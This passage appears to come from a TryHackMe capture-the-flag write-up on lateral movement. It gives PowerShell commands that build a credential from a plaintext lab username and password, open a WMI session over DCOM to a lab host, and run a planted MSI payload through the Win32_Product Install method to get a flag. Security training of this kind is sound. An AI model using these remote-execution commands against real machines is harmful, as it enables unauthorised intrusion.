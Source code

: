     * Start a WMI session against THMIIS 
    
        ```
        $username = 't1_corine.waters';
        $password = 'Korine.1994';
        $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
        $Opt = New-CimSessionOption -Protocol DCOM
        $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
        ```

    * We then invoke the Install method from the Win32_Product class to trigger the payload
    
        ```
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
        ```

        ![task4-thmiis](./images/task4-thmiis.png)

    * Get the flag
    
        ```
        cd C:\Users\t1_corine.waters\Desktop
        ```
        
        ![task4-flag](./images/task4-flag.png)
